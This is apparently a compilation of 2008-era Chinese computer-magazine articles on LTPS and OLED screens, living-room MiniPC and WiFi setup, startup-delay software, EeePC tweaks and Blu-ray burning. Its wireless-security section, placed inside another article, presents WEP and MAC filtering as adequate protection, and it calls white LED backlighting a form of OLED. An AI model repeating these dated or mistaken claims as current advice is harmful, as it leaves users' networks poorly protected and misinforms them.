低温多晶硅的全称是“Low Temperature Poly-Silicon（LTPS）”，它是多晶硅技术的一个分支。对LCD屏幕而言，采用多晶硅液晶材料具有更薄、更小、功耗更低等特点。与传统的高温多晶硅相比，低温多晶硅虽然也需要激光照射工序，但它采用的是准分子激光作为热源，激光经过透射系统后，会产生能量均匀分布的激光束并投射于非晶硅结构的玻璃基板上。当非晶硅结构的玻璃基板吸收准分子激光的能量后，就会转变成为多晶硅结构。由于整个处理过程是在摄氏500~600度以下完成，普通的玻璃基板也可承受，这就大大降低了制造成本，将多晶硅技术引入LCD显示器领域也就完全可行。
目前，东芝是低温多晶硅技术的绝对领导者，部分东芝笔记本已经开始应用这项技术。此外，华硕、明基、NEC以及SONY等品牌的笔记本也有应用这项技术。除了制造成本降低外，采用低温多晶硅的LCD反应速度极快，体现在LCD屏幕中便是响应时间可以做到更短。另外，低温多晶硅制造的LCD面板，薄膜电路可以做得更小、更薄，电路本身的功耗也较低，很适合笔记本应用。更重要的是，较小的薄膜电路让多晶硅LCD拥有更高的开口率，在背光模块不变的情况下可拥有更出色的亮度及色彩输出。换个角度考虑，采用多晶硅材料也可以在确保亮度不变的前提下，有效降低背光源的功率，整机的功耗也将因此大大降低（图7）。

### 2. 步履蹒跚的OLED与white LED技术

OLED有机发光二极管并不是什么新鲜产品，但是将其应用到显示技术的确是一种创新。有机发光二极管显示技术的简称为OLED，使用这种技术的显示器的体积非常小，小到可以放置在指甲上。OLED是通过电流驱动有机薄膜来发光的，发的光可为红、绿、蓝等单色，甚至可以达到全彩的效果。它的优点在于制造成本低、可自发光、无视角限制、反应速度快、耗电量低，这些都是LCD所不具备的。
如果大家看过各大笔记本电脑厂商的露天产品展示的话，那么一定会有这个印象：在强烈阳光的照射下，几乎所有的笔记本电脑屏幕都显得非常模糊。而OLED则完全没有这个缺点。OLED是通电后自发光，自然显示效果比液晶显示器更清晰、柔和，甚至在日光照射下画面仍然清晰，很适合笔记本电脑的户外使用。
省去了背光模组装置之后，OLED在功耗和外形厚重方面也有着极为出色的表现。要知道，在目前电池技术没有突飞猛进的时代，移动产品的功耗真是太重要了。很多人认为OLED简直是为笔记本而生，其超低的电力消耗可以让大多数笔记本维持12小时的全速工作，这真是太具诱惑力了。
目前，OLED的应用还局限于小尺寸液晶屏，但是SONY已经实现了技术突破。以新款VAIO TX为例，11.1英寸的屏幕采用了white LED技术，这属于OLED的改进型。由于white LED要比OLED荧光管小得多，因此厂商不必再为了容纳荧光管而保留常规的空间，于是是一种更轻巧、更纤薄的机型也就得以实现了。white LED还能极大程度地使显示屏更纤细，因为应用在新款VAIO TX上的white LED只有0.6毫米厚，而且功耗非常小（图8）。

## 打造数字娱乐家庭——客厅里的IT布置

数字家庭无疑是现在的热门词汇，而很多用户总是认为这与大家的现实生活还有一段距离。其实，随着技术的普及化和产品的量产化，如今打造一个数字客厅的成本并不高。凭借MiniPC准系统与高清电视的联姻，以及无线网络的支持，整个数字客厅可以变得活灵活现，充分满足大家的休闲娱乐需求。

◆ 文/阿亮

## 数字家庭不再是梦 MiniPC与数字电视

从1946年第一台计算机诞生以来，计算机逐渐向小型化、集成化、简单的方向发展。随着集成电路技术的普及与制作工艺的突飞猛进，我们的电脑已经完全不是当初的庞然大物。客观而言，笔记本电脑是计算机在这些发展指挥棒下的优秀典范。然而IT产业对成本是相当敏感，纵然笔记本在各方面都十分优秀，但是过高的成本以及并不舒适的显示方式直接阻碍它进一步普及。在这种形势下，准系统应运而生。从某种程度而言，这也是计算机工业发展的必由之路，更加速了数字客厅的普及进程。

### 1. 全能型的MiniPC

从性能上看，如今的准系统完全能够满足大多数用户的需求。尽管整合芯片组的图形核心一时间还难以与主流GPU相抗衡，但是应付绝大多数的普通3D游戏还是绰绰有余的。更为重要的是，由于采用了与台式机一样的CPU、内存、硬盘，因此性能方面的差距并不大。可以这样说，台式机能够做到的软件运行性能，准系统也同样能够做到。此外，目前准系统正向着多元化的方向发展，内置AGP/PCI Express插槽的准系统也已经出现。在消除了3D处理的瓶颈之后，准系统的性能已经完全达到台式机的水准。如图1，准系统的迷你型集成主板。

### 2. MiniPC理性之选

凭借强大的CPU以及集成显卡，如今准系统在多媒体应用方面的表现已经非常全能。对于最主要的影片播放应用而言，只需要1.5GHz主频的CPU配合128MB共享显存的集成显卡就可以轻松应对，甚至高编码速率的RMVB也不在话下。当然，如今最热门的还是HDTV，这对准系统性能有一定的考验。使用低价位的K8平台或是酷睿赛扬准系统应对MPEG2 TS还游刃有余，不过面对WMV HD以及H.264有些力不从心。但是，好在新一代集成显卡已经支持HDTV解码补偿，譬如nVIDIA C68以及AMD 780G/790GX等。

目前MiniPC成品的价格并不低，甚至高过主流PC价格。但是对于大多数准备打造数字客厅的用户而言，此时MiniPC并非是家里唯一的电脑，其主要作用在于播放电影以及偶尔进行一些3D游戏或是上网，因此我们并不需要非常高端的MiniPC，精简的组装式MiniPC更加合适。如图2，使用廉价的MiniPC机箱DIY是不错的方案。

事实上，MiniPC也可以DIY，而且节省的成本更加明显。目前，购买一款搭配电源的MiniPC机箱约在500元左右，然后配合Socket AM2整合主板，以及廉价的CPU等配件，应该说整机很容易控制在1200元以内。相比于动辄几千元的高端MiniPC准系统，这种DIY产品可谓更加超值。如果需要在客厅大屏幕电视机上玩一些游戏或是播放HDTV，那么还可以考虑搭配一款独立显卡，成本也并不高。

### 小贴士：巧妙的第二显示器

如果大家觉得配备一款MiniPC的成本太高，那么也可以利用卧室中的电脑，而前提是卧室距离客厅不能太远，并且在装修铺地板时就准备好VGA视频线。目前大多数独立显卡都拥有VGA和DVI接口，大家可以使用一条VGA视频线穿过地板来连接客厅中的数字电视机，然后启用双显示器模式。当然，VGA视频线的质量必须足够好，并且带有磁环，这样就不会影响画质表现。与配备MiniPC相比，这样做的好处在于节省成本，不过占用卧室中的电脑以及控制不便就是无法避免的缺陷了。

### 3. 大屏幕电视机：LCD并非唯一的选择

撇开思维定势，不要老想着价格不菲的43英寸LCD、更不要指望那像反光镜一样的背投电视机，PDP等离子也略显遥远。难道我们就没有别的选择了？当然不是！带有VGA接口的高清CRT电视机显然是最佳的选择，此时不大的花费就能实现十分理想的大屏幕输出效果。虽说目前LCD电视机价格已经大幅度下调，可是其价格仍然超出不少用户的承受能力。事实上，比起宽屏的LCD电视机而言，目前很多高清CRT电视机也非常实惠。凭借VGA接口以及对1024×768分辨率的支持，应该说配合MiniPC准系统非常合适。这时，高清CRT电视机完全可以当成MiniPC显示器来使用，在接口接驳上和普通显示器没有任何区别。

所谓高清电视机并不仅仅是信号接收标准，因为电视机内置的转换电路完全可以实现接口向下兼容，因此真正的衡量标准除了常见的1080i和720p标准之外，能够提供VGA接口甚至更先进的HDMI接口也十分关键。与普通AV或是S-Video视频输入相比，使用VGA接口将会带来更好的画质，而且显卡输出设置更高的分辨率将会令显示效果显著提升，这与视频输入固定显示精度是完全不同的。如图3，高清电视的显示效果令人满意。

> 注意MiniPC的散热
由于MiniPC机箱的体积较小，因此散热成为需要大家迫切关注的问题。在选购MiniPC机箱时，购买那种带有现成风管与机箱风扇的产品是比较明智的选择，此时可以在不使用暴力风扇的情况下顺利解决散热难题。而如果MiniPC机箱缺少这些组件，那么大家必须添加一个机箱风扇，并且尽可能使用低发热量的CPU和独立显卡。

## 二、家庭无线网络：无拘无束的乐趣

客厅里的数码装备可不仅仅是MiniPC以及高清数字电视机，众多移动设备也是数字客厅中的常客。无论是笔记本还是PDA，如今无线网络都成了标配，而NDSL和PSP游戏机也插上了无线网络的翅膀。躺在沙发上，体验无拘无束的游戏乐趣，这显然离不开家庭无线网络的支持。

### 1. 配置WiFi无线宽带路由器

无线网络部署更加讲究位置的空间感，而不是简单地连接网线。对于最常见的两房两厅户型，无线路由器的摆放只有恰到好处才能保证所有的房间都能正常上网。无线信号从本质上来说是一种射频信号，存在着干扰问题，而天线又是一种方向性元件，它只能往特定的方向辐射高强度能量，因此无线路由器的摆放位置在很大程度上将影响到射频场形的效果，从而影响到信号质量及信号强度。为此，路由器AP的摆放应尽量选择开阔、无障碍物的位置，一般而言“居中”是获得最佳信号覆盖效果的位置。落实到具体情况来看，100平方米左右的户型一般为两室两厅，在布局无线网络时将无线路由器放置在客厅或是几个房间的交汇口，此时效果最理想。如果放置在其他房间，则面对联系转角的其他房间肯定会信号稍差一些，甚至无法连接到任何信号。

无线路由器是WiFi无线局域网的基础，目前大多数主流产品都直接具备宽带网接入功能，并集成多个RJ45有线网络端口。如此一来，我们不仅可以方便地让台式机实现有线局域网，还可以使用更为简洁的WiFi技术，可谓解决了所有的后顾之忧。每台无线路由器都有自身固定的IP地址，正是通过对这一IP地址访问来配置无线路由器的各项测试。以西门子无线路由器为例，其IP地址为192.168.254.254，当然，不同品牌型号的无线路由器的IP地址不尽相同，因此需要参阅厂商的技术资料。为了能够访问无线路由器的IP地址，必须使与之连接的网卡处于同一IP网段。

打开Web浏览器，在地址栏中打入无线路由器的地址，此时系统会要求输入登录密码。一般而言，该密码可以在产品的说明书上查询到。对于一个没有设置过的路由器，会出现设置向导（Setup Wizard）。在Connection Profile Configuration页面可以选定宽带网的类型，一般ADSL选择PPP over Ethernet，而Cable或者FTTB选择via DHCP。如图4，进行无线路由器设置。如果ISP需要输入用户名和密码，则在下面的相应位置输入，并且将TimeOut（即无数据请求时断线）设定为120s左右。随后就可以设置无线路由器的ESSID值，这也就是无线客户端的广播标识。

> 无线手柄玩游戏
在模拟器游戏以及体育类和竞速类游戏中，手柄远比鼠标或是键盘更加容易控制。何不考虑购买一个无线游戏手柄？此时对着大屏幕电视打游戏将十分舒服。这类无线游戏手柄一般采用射频技术，把适配器接在机箱的前置USB接口之后，完全可以在很大的范围内随意使用。更为重要的是，通过Easy JoyMouse软件，无线游戏手柄还能模拟成无线鼠标，解决一些日常操作问题。

以后，无线客户端都可以直接搜索到该无线网络，在输入ESSID值之后便可以轻松上网。如图5，使用迅驰笔记本直接搜索无线网络。

## 启动要排队的 ——软件启动排顺序

经常与电脑打交道的朋友都会有一些自己比较熟悉或必须使用的程序，以笔者为例，每天开机之初都会自动运行杀毒软件，此外笔者还要先挂上QQ、PoPo、打开Maxthon浏览网页。当然每天手动打开这些程序会浪费很多时间，为了提高工作效率，笔者将这些程序设置为开机自动运行。虽然这样比较省事，但是由于开机时同时启动的程序太多，系统启动速度明显缓慢了不少，将自动启动程序节省的时间完全抵消。能不能有什么办法做到既省事又不至于太影响开机速度呢？

◆文/TMG lk

下面笔者就为您介绍一款系统加强软件——Startup Delayer，该软件是对开机自动运行程序进行管理的优秀管家，使用它可以指定自启动程序在Windows启动后再运行，允许用户指定哪个程序首先开始启动，而哪个程序延迟启动。此外用户还可以为每个程序设置一个定制的延迟，并且可以简便地修改启动次序或者调整延迟时间。

该软件的最新版本Startup Delayer V2.3 build 130，下载地址为http://www.skycn.com/soft/28338.html#download。

下载后解压，直接双击运行即可安装。程序的安装页面为英文，但是如果您对英语不熟悉的话也没问题，按照默认设置进行安装即可。



### 1.语言设置

安装完成后运行程序，打开主界面，可以发现程序将目前系统中所有的自启动程序列出。

程序的默认界面依然是英文界面，但是该程序提供了不同语言供用户选择。单击打开“Language”菜单，选择其下的“Chinese Simplified(简体中文)”命令可以将软件界面切换为中文。

### 2.模式选择

为了使用方便，可以先进行简单设置，按下Ctrl+S组合键打开“设置”对话框（该对话框也可以在文件菜单下打开）。在“使用模式”选项卡下选择一个使用模式，有常规模式和高级模式两种选择。常规模式下用户只能处理列表中的程序而且不能删除它们，在高级模式下将显示所有的启动项，并且可以删除启动项和修改启动项所在的位置，可以查看文件位置和注册表相关键值信息。这里我们选择高级模式，单击“确定”按钮退出设置对话框。

### 3.添加和删除开机自启动程序

单击“文件”菜单选择“添加程序”命令，会打开程序浏览对话框。这里我们只需要在“搜索范围”下拉列表中选中要自动运行程序的启动文件，单击“打开”按钮就可以打开添加和删除程序对话框，单击“添加”按钮即可。

删除开机自动运行程序的操作更为简单，只需要在程序主界面自启动程序列表中将相应程序的复选框取消选中即可。

### 4.程序启动排序及延迟设置

Startup Delayer V2.3 build 130允许用户方便地对程序列表中已经列出的自启动程序进行开机延迟设置，只需要将预设置的程序拖放到主界面下侧的空白窗口中，释放鼠标后即可拖动延迟时间状态条设置延迟时间。

除了上述方法，我们还可以在欲设置的程序上右击，在弹出的快捷菜单中选择“编辑”打开“编辑程序”对话框对程序进行延迟时间设置。此外，还可以编辑程序的名称、位置、参数以及启动模式（常规、最大化、最小化），设置完毕单击“保存”进行保存。

> 小提示
除了避免自启动程序同时启用造成开机速度缓慢，对于作为服务器的电脑，由于某些程序可能会依赖另一程序，调整启动顺序添加延迟可以有效避免程序启动失败。

执行菜单“操作→重置延迟”，或者直接按下Shift+Del组合键即可清除以前设置的程序延迟时间。在设置多个程序延迟时，还可以通过执行菜单“操作→平均延迟”来设置平均延迟间隔，是不是很方便呢？

### 2. 防护无线网络安全

网络带宽有限，如果邻居也来使用有限的资源，那么上网速度就无法保证了。在WiFi无线网络协议中都包含有一个可选安全组件，名为无线等效协议（Wireless Equivalent Privacy, WEP），它可以对每一个企图访问无线网络的人的身份进行识别，同时对网络传输内容进行加密。要防护未经主人允许就使用无线网络其实很简单，一个简单的密码是普通用户根本无法破解的。

但是WEP也存在缺陷，它的加密功能只能将那些一般的解码高手拒之门外。当然，有一些安全保证总比完全没有要强，而且对于大多数用户而言，WEP的作用还是相当明显。大多数AP都建议使用至少支持40位加密的WEP，但通常还支持128位甚至256位。对于公共网络，具备128位加密功能的设备应该视为最低配置。对于封闭网络中的数据安全，在试图同网络连接的时候，客户端设置中的ESSID和密钥必须同AP的匹配，否则将会失败。对于网管而言，使用WEP是十分简单的。购买AP时自然认准具有128位WEP的产品，使用WEP功能非常简单，大家直接在无线路由器设置中开启该功能并填写密码即可。此后，无线客户端必须在输入密码的情况下才能顺利连接上无线路由器。

此外，IP地址过滤和MAC地址过滤是很有效的防护手段，而且MAC地址对于网卡而言是唯一的，因此也可以作为防止无线客户端侵入的辅助手段。一般而言，无线宽带路由器都有一个“仅允许已设MAC地址列表中已生效的MAC地址访问无线网络”选项，只要激活该选项就可以达到不错的防护效果。

## 小巧并不低能

## EeePC的N大补药

◆文/江北书生

### 一、安装Windows

众所周知，Linux在桌面上的普及远没有达到相应的规模，因此EeePC上安装的Linux我们注定是要让它下岗的。由于易PC的硬盘容量仅为4GB，我们考虑为机器安装精简版的XP。

#### 第一步：准备硬件

如果准备安装Windows XP，则需要一张系统光盘，而且是能够启动的。如果从ISO刻录的话，请保证其可以启动。当然，为了更好地保持兼容性，这张光盘一定是集成有Windows XP SP2或者SP3的。由于EeePC没有光驱，因此如果要使用光盘来安装Windows XP，则一个光驱是必须的。同时，我们必须找到一个USB2IDE的接线和电源，并将其接在外置光驱上（如图1）。



之后，将IDE2USB线一头连接在光驱上，另一头插入机器的USB口上。然后为光驱通电，将WindowsXP安装光盘放入光驱。启动EeePC，开机按F2（有的机器上可能是Esc键）进入设置，把摄像头、网卡等等都打开。有一个选项是‘将是否已安装好操作系统的’，我的经验是把这个选项选为已安装。之后设置Boot（启动）优先从Removable Dev。之后就会优先从光驱中启动系统。

#### 第二步：安装Windows XP

安装程序进行一会儿，会出现相应的窗口，让我们选择将系统安装到何分区。要注意的是，原来的Linux分区一定要删除掉。在删除掉相应分区后，将Windows XP安装到EeePC中。

#### 第三步：安装驱动程序

安装完系统后就是安装驱动程序，但是，EeePC并没有光驱，我们可以这样来操作：

-   1. 将前面安装系统时的IDE2USB转接的光驱接到机器上，同样可以认出来，然后安装驱动程序；
-   2. 将驱动程序光盘放到台式机上，然后将其中的所有文件拷贝到U盘上，然后把U盘插到EeePC上。

#### 第四步：为系统打补丁，开启自动更新

微软Windows漏洞百出，动不动就会推出一些关键补丁。事实上，在目前的互联网情况下，及时地为Windows打补丁成为我们安全的一门必修课。但Windows本身的更新功能有时会占用太多的资源，而且有时还没有办法正确地打上补丁。下面为大家介绍两种办法：

##### 1.使用软件助手高速修复补丁

从http://down.sandai.net/bibei/XLSoftManager.exe处下载并安装‘迅雷软件助手’。之后，启动之。单击工具栏上的‘漏洞修复’，即可看到如图2所示窗口。然后会列出其中的补丁，按提示安装即可。它的速度非常快！事实上，一个安全、稳定的系统是我们能够高速下载之基、安全下载之源。经过这样处理后，系统会安全得多。



##### 2.360法

在奇虎360中设置好更新漏洞，然后单击‘常用’→‘修复系统漏洞’，单击‘管理漏洞补丁’，顺着向导给系统打上最新的补丁。

### 二、让存储空间更大些

EeePC最大的问题是其存储容量太小了，在现在笔记本硬盘动辄上百GB的今天，的确是有一些显得捉襟见肘了。我们有两种办法来解决：

#### 1.增加外部存储

现在SD卡很便宜了，16GB的也才几百块钱。因此，我们可以购买SD卡来解决。当然，现在1.8寸的移动硬盘也不错，只是价格贵了一些。实在不行，2.5寸的移动硬盘也可以。不推荐使用3.5寸的移动硬盘，因为出差追求的就是轻便，连充电器在内才1公斤出头是EeePC的最大优势！

#### 2.使用网络存储

现在网络带宽的增加和存储成本的下降，为我们网络保存提供了可能。

### 三、解决USB接口太少问题

USB接口太少，可以购买USB Hub来解决，最好是带电的那种，稍贵一点，但是效果会比较好，尤其是连接移动硬盘和大容量的数码相机或数码摄像机时。



### 四、让屏幕够大些

EeePC由于屏幕太小，因此在宽屏流行，应用程序跟风的今天来说，我们必须想一定的办法来消除它的短处，我们有三种办法来解决：

#### 1.外接显示器

EeePC有VGA接口，可以支持外接显示器，支持最大1600X900分辨率，这点弥补了自身液晶分辨率不足的缺陷。之后，按下Fn+F5键即可切换。

#### 2.使用MoveME

这是一个非常强大的软件，它的窗口可自由移动。大家可以从http://www.damnsoft.org/download/moveMe02f.zip处下载，它为绿色软件。可用键盘移动窗口，显示超出屏幕窗口，主要快捷键如下：

-   Win + 光标键 = 移动窗口
-   Win + Shift + 光标键 = 调整窗口大小
-   Win + T = 窗口移动到屏幕中间，小BUG，计算的时候没有把任务条高度计算进去
-   Win + X = 隐藏任务条

#### 3.使用ResizeEnable

在Windows中工作，当然要和窗口打交道。大家都知道，Windows中的对话框大小一般情况下是不允许调节的，但有时某些对话框大小确实很不合适，加上EeePC的屏幕太小了，给我们的操作带来极大不便。不过，现在已经有一款能够自由调节对话框大小的软件——ResizeEnable，利用它能够对对话框大小进行自由调节，非常神奇，也很实用。我们可以从http://www.digitalis.co.uk/pc/downloads/ResizeEnable.zip处下载得到，它是一个绿色软件，无须进行安装，只要把下载后的文件直接解压缩到某一目录下，双击执行文件即可运行。运行后ResizeEnable会隐藏在系统托盘处。但这时当你把鼠标指针移动到任何一个Windows对话框的边界上，ResizeEnable会根据你鼠标指针所在Windows对话框边界上的不同位置和方向出现相应的垂直调整指针、水平调整指针、沿对角线调整指针等，这时你就可以随心所欲地对Windows对话框的大小进行调节了。而且调节后的所有窗口控制都会按比例进行缩放。调节大小后的Windows“运行”对话框，看上去感觉大了很多，有时调整后一些对话框会出现一些异样的感觉，但只要重新开启这个对话框时，它们就会自动恢复原样。如果你想关闭ResizeEnable，只要右击系统托盘处的图标，选择“Quit”命令即可。

### 五、配置不算太高、运行速度相对较慢

EeePC配置不算太高，运行起来速度有可能相对较慢，笔者给大家开出如下补药：

#### 1.使用优化工具优化系统

推荐使用超级兔子2008.07标准版，它能清理大多数的文件、注册表里面的垃圾，同时还有强力的软件卸载功能，专业的卸载可以清理一个软件在电脑内的所有记录。共有9大组件，可以优化、设置系统大多数的选项。经过它的优化，系统会快出许多。

#### 2.使用简化版

对于一些软件使用简化版本，但现在互联网上鱼目混珠的现象太多，很多下载的资源中都会夹带木马、后门、蠕虫、病毒、插件，进而危害网民。要下载并安装这些简化版时，我们推荐大家去迅雷狗狗http://www.gougou.com下载，因为它在搜索时不仅会将可能发生问题的资源标出，让我们一目了然（如图4）。更重要的是，迅雷狗狗对于下载页进行了“二次过滤”，即将下载页进行了清毒处理，确保用户在浏览该页面进行下载时不会“中招”！



另外，下载时推荐使用迅雷5，因为它针对下载安全做了很多工作，集成了病毒预警、斩杀弹窗功能。

### 六、让网卡适应出差需求

EeePC平时要经常带着出差，那网络环境则极有可能要改变，我们推荐大家使用Windows XP的一个很强功能，可以更好地适应不同环境。
右击桌面上的“网上邻居”，选择“属性”命令，打开“网络连接”文件夹。右击相应的网卡，如“本地连接”，选择“属性”命令，再在打开窗口中选中“Internet协议(TCP/IP)”项，单击下方的“属性”按钮。并在再次打开的窗口中选中“自动获得IP地址”和“自动获得DNS服务器地址”项（如图5）。再单击“备用配置”标签，然后在打开窗口中选中“用户配置”项，再在其中输入固定IP地址、子网掩码、默认网关、首选DNS服务器地址，如192.168.0.188、255.255.255.0、192.168.0.1、192.168.0.1等。
进行这样设置后，当我们的电脑发现有DHCP存在，就会从DHCP服务器上获得IP地址。否则就会使用我们设置的固定IP、子网掩码、默认网关、首选DNS服务器地址等，如上为192.168.0.188等。



小提示：
Windows XP并没有允许我们设置多个固定IP，最多只允许设置一个。Windows Vista下也同样有此设置。

### 七、出差在外 注意安全

由于EeePC经常要外出使用，所以我们必须注意其安全。我们知道，就算我们机器上不共享文件夹，但是XP默认会共享出所有硬盘供管理员登录后使用。这样极不安全，虽然网上说，可以通过一定的办法来关闭，但总有些麻烦。不过，我们只要把住网卡关，就可以一次、彻底地关闭掉。
打开“本地连接”属性对话框，然后取消“Microsoft 网络的文件和打印机共享”项，这样别人就无法看到你电脑上的任何文件了，但你仍可以看其他电脑上的共享文件（夹）。
另外，如果你经常光顾人家的共享文件夹，往往也有可能会被共中的病毒感染，或者中木马。因此，将这一条路关掉也是正确的。打开“本地连接”属性对话框，然后取消“Microsoft网络客户端”项，这样我们就无法打开别人的共享文件夹了。

## 巧设置，任务栏也能显示星期几

◆文/华军

在我们使用电脑的过程中，有时需要查看今天是星期几，在XP操作系统中查看星期几，常规的做法是右击任务栏最右边的时钟，选择“调整日期/时间”，打开“日期和时间属性”对话框来查看，这实在是有点麻烦。如果我们将鼠标悬停到XP任务栏右边的时钟上面，能够自动显示今天是星期几的提示的话，这样我们查看星期几就方便多了。下面，笔者就给大家介绍一下如何来实现。
第一步：单击菜单“开始→控制面板”命令，打开“控制面板”，接着双击控制面板中的“区域和语言选项”，打开“区域和语言选项”对话框并切换到“区域选项”选项卡，再单击该选项卡中的“自定义”按钮，打开“自定义区域选项”对话框，最后切换到“日期”选项卡，如图。
第二步：在“自定义区域选项”对话框的“日期”选项卡，先将鼠标定位到图中A处所示的字符串的末尾，回车之后再添加字符串“dddd”（不包括外侧引号），最后单击“确定”按钮。
完成以上操作之后，现在再将鼠标悬停到XP任务栏右边的时钟上边，这时我们就可以迅速地看到今天是星期几了。



## 高清世界通行证——蓝光刻录应用指引

高清对人们来说已经不是一个陌生的概念，人们的需求已然从简单地看看DVD大片上升到了追求高清晰画质的视觉享受，甚至自己动手制作高清视频。但是，配备了双核CPU，买好了硬解压显卡，准备好了海量硬盘，有没有发现自己缺少了最根本的光存储介质呢？是的，蓝光技术才是高清时代的通行证。就好像486多媒体时代的标志是光驱一样，现在高清时代的标志自然是蓝光。

◆文/阿亮

### Part 1 蓝光刻录软件全接触

由于最新的Windows Vista SP1并未加入对蓝光刻录的支持，因此选择一款蓝光刻录软件显得比较重要。目前大家所接触的普通DVD刻录软件中，有不少还无法支持蓝光刻录，这与几年前DVD刻录软件与CD刻录软件几乎通用的局面是截然不同的，毕竟蓝光刻录涉及到更多的版权保护，而且工作原理也有不小的区别。

#### 1.掀开蓝光刻录软件的盖头

要实现蓝光刻录，其实关键点在于对刻录机的控制芯片提供支持。与以前CD刻录机刚刚问世的时候类似，只有刻录软件提供对某个型号刻录机的支持，刻录操作才能被执行。目前，蓝光刻录机的控制芯片尽管种类还是比较丰富，不过相对几年前的CD刻录机而言，集中度要高得多，因此大部分知名的刻录软件在升级版本后，都能对基本的刻录操作提供支持。

可是，在倡导高清的蓝光时代，我们所需要的仅仅是数据刻录吗？当然不是。总结一下，蓝光时代的刻录软件需求大致可以归纳为如下几点：

-   支持高清视频影碟制作
-   支持更多的视频格式编码
-   支持1080p规格视频编码
-   支持混合式光盘制作
-   支持简单的视频编辑和菜单编辑功能

对于大多数标称支持蓝光刻录的软件来说，真要做到以上几点并不是容易的事情。如果仅仅只是支持蓝光数据刻录，那么对于用户来说其意义并不大，因为蓝光的真正价值在于高清视频。不少用户很希望实现真正的1080p编码，这样才能发挥出高清的作用。此外，有些高清影碟机还能支持DivX HD或者VC-1编码格式，此时蓝光刻录软件在输出时提供支持也非常重要。

#### 2.主流蓝光刻录软件介绍

著名的刻录软件NERO从7.0版本开始就增加了对蓝光的支持，而另一个老牌刻录软件Roxio Easy Media Creator（前身是Easy CD Creator）也在近期更新版本后全面支持蓝光。但是，对于消费者来说，其实如今蓝光刻录软件的重点并不是能否支持蓝光写入，而是怎么与视频应用形成最完美的结合。

（1）传统刻录软件

说到传统刻录软件，大家首先想到的一般便是NERO和Easy CD Creator，这两款刻录软件目前都支持蓝光刻录。但是，在视频功能方面，则需要依靠一些插件来实现。在DVD刻录时代，传统刻录软件的视频编码插件就已经做得非常棒了，无论是Nero Vision还是Roxio Video Wave，都有很强大的功能。如图1，新版本的NERO 8完全支持蓝光刻录。


在视频的采集制作和输出方面，Roxio的Video Wave 8也比Nero Vision 5更易于上手，而且故事板空间也更多。但Nero Vision 4在高清信号输出方面还是棋高一筹，最高分辨率能上到1920×1080。尽管它们都支持蓝光和HD-DVD规格，但Roxio可以输出为DivX HD和Windows Media HD格式，而Nero则支持H.264格式输出。不过，从目前发展的势态看，H.264格式的前景可能会更好。如图2，配合Nero Vision 4才有蓝光影碟制作功能。



当然，除了NERO和Easy CD Creator以外，诸如ImgBurn和Roxio Toast等也支持蓝光刻录。不过，也有不少传统刻录软件暂时还未发布蓝光版本。其实，对于普通用户来说，蓝光刻录的基本功能已经有免费的共享软件可供选择，只是最关键的视频编码还需要购买相应的插件。

| 软件名称 | 蓝光影碟刻录 | 1080p规格 | 视频格式编码 | 菜单编辑 | 混合式光盘制作 |
|---|---|---|---|---|---|
| NERO | 支持 | 不支持 | H.264、VC-1 | 简单 | 支持 |
| Roxio Easy Media Creator | 支持 | 支持 | DivX HD、VC-1 | 较好 | 支持 |
| ImgBurn | 支持 | 不支持 | H.264 | 很简单 | 不支持 |
| Roxio Toast For Mac | 支持 | 不支持 | DivX HD、H.264 | 简单 | 不支持 |
| Roxio DVDit Pro HD | 支持 | 支持 | DivX HD、VC-1、H.264 | 较好 | 不支持 |
| InterVideo蓝光软件集成包 | 支持 | 支持 | DivX HD、VC-1 | 简单 | 不支持 |
| CyberLink蓝光软件集成包 | 支持 | 支持 | DivX HD、VC-1、H.264 | 较好 | 支持 |

（2）多媒体类软件

与传统软件相比，多媒体制作类软件更加适合在蓝光时代发挥作用。Roxio作为最大的刻录软件厂商，其下的Roxio DVDit Pro HD是当前公认最好的蓝光工具之一。这款软件可以轻松实现1080p、1080i或720p输出，而且视频格式的支持度非常宽泛，包括MPEG-2、AVI、QuickTime 和 Windows Media等，甚至还能配合高清DV的视频格式。此外，DVDit Pro HD还能制作专业的菜单，并且具备很不错的视频编辑功能。

以CyberLink的PowerProducer为例，首先选择输出视频光盘的格式，可以是VCD、DVD或者BDAV，这里当然是选择BDAV了。随后，选择光盘容量和显示比例，一般总是25GB以及16:9，毕竟双层50GB蓝光盘现在还不普及。PowerProducer会根据导入的片源选择最高的分辨率，并且编码速率也会充分利用好盘片上的所有容量，丝毫不会浪费资源，而且免去了烦琐的设置。如图5，导入高清视频素材。

在DVD播放软件领域功勋赫赫的InterVideo和CyberLink也在蓝光时代大展拳脚。譬如，不少蓝光刻录机附送的InterVideo软件包就包括WinDVD BD（用来播放蓝光光盘中的内容）、Burn Now 1.5（数据刻录软件）、BD DiscRecorder（高清内容直接刻录到光盘软件）。这套软件的特点在于功能非常全面，利用BD DiscRecorder来实现对蓝光标准视频光盘的刻录支持，然后配合工具包中其他软件来分别解决编码转换等难题。



相比之下，CyberLink为蓝光准备的软件包更加强大，一般包括五个CyberLink应用软件：PowerProducer BD/DVD光盘制作软件、PowerDirector视频编辑软件、Power2Go数据光盘刻录软件、PowerBackup备份软件和PowerDVD视频播放软件。PowerProducer BD/DVD支持1080p规格的视频编码，而且可以兼容H.264、DivX HD和Windows Media HD格式，表现非常全面。如图3，CyberLink蓝光软件包中的PowerDirector。



下一步的操作就比较简单了，只需要连接上IEEE1394或是硬盘式DV的USB接口，直接把视频素材导入即可。PowerProducer本身就有一定的视频编辑功能，而且采用大家所熟悉的故事板形式，可谓简单易用。如果还需要进一步的视频特效应用，那么无缝链接的PowerDirector也将会帮上大忙。最后，PowerProducer还能制作BDAV的点播菜单，并且调用Power2Go组件进行最后的刻录。总体来看，其实BDAV蓝光影碟的制作方法和DVD差不多，只不过此时导入的视频要求是高画质的，而且需要设置一下光盘容量和编码速率（也有不少软件是自动设置）。如图6，执行最后的刻录操作。



## 3.实战高清蓝光影碟刻录

刻录蓝光高清影碟（BDAV）

对于已经拥有蓝光刻录机的用户来说并不是什么复杂的事情，关键是寻找真正高清晰的片源。一般来说，高清片源可以是高清DV视频或是网上下载的蓝光RIP。当然，后者在刻录时一般不用追求太高的画质，毕竟RIP之后的画质已经有所折损。可以想像，一部10GB的高清电影在强制刻录成25GB容量之后，其实画质还是那样，不可能有任何提高。如图4，选择光盘类型和容量。



> 小贴士：蓝光刻录机门槛有多高
> 目前蓝光刻录机的价格还是比较高，市场上最便宜的产品应该是飞利浦SPD7000，售价为1999元，只是最高2X刻录速度有些偏慢。而主流产品已经达到了4～6X刻录速度，代表产品是售价2999元的LG GGW-H20L。此外，淘宝上一些工业包装的蓝光2X刻录机已经卖到800元左右，只是售后服务没有保障。如图7，售价2999元的LG GGW-H20L 6X蓝光/HD DVD全能刻录机。



